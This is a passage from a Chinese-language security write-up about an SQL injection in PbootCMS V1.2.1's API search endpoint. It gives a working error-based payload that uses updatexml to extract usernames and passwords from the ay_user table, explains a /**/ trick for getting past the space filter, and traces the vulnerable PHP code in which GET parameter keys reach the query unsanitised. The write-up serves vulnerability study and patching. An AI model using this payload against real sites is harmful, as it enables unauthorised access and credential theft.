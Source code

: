 ## 0x10.1 接口注入一

### 0x10.1.1 漏洞演示

```
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/search?1%3D1)and(updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1))--=1
post：
    11=11 
```

一定要 post 要跑空 post 才能进流程

因为系统中会把 “空格”转为“_” 所以使用/**/绕过即可

### 0x10.1.2 漏洞讲解

路径：apps\api\controller\CmsController.php 方法：search( 这里我把漏洞触发点发出来我们主要讲讲他即可

```
// 数据接收
foreach ($_GET as $key => $value) {
  if (! ! $value = get($key, 'vars')) {
    $where[$key] = $value;
  }
}
$data = $this->model->getList($acode, $scode, $num, $order, $where, $fuzzy); 
```

从代码中看他会收集外部所有的 $_GET 带入 getList 进行入库查询 value 是我们无法控制所以无法注入的，可是 key 是我们可控制可注入的！！！跟进 getList 方法 路径：PbootCMS-V1.2.1\apps\api\model\CmsModel.php function getList(

```
// 列表内容
    public function getList($acode, $scode, $num, $order, $where = array(), $fuzzy = true)
    {
        ...
        // 筛选条件支持模糊匹配
        return parent::table('ay_content a')->field($fields)
            ->where($where1, 'OR')
            ->where($where2)
            ->where($where, 'AND', 'AND', $fuzzy)
            ->join($join)
            ->order($order)
            ->page(1, $num)
            ->decode()
            ->select();
    } 
```

这里我把关键代码放出来了，可以看到接收$where 以后直接仍进了数据库进行操作造成了注入

## 0x10.2 接口注入二
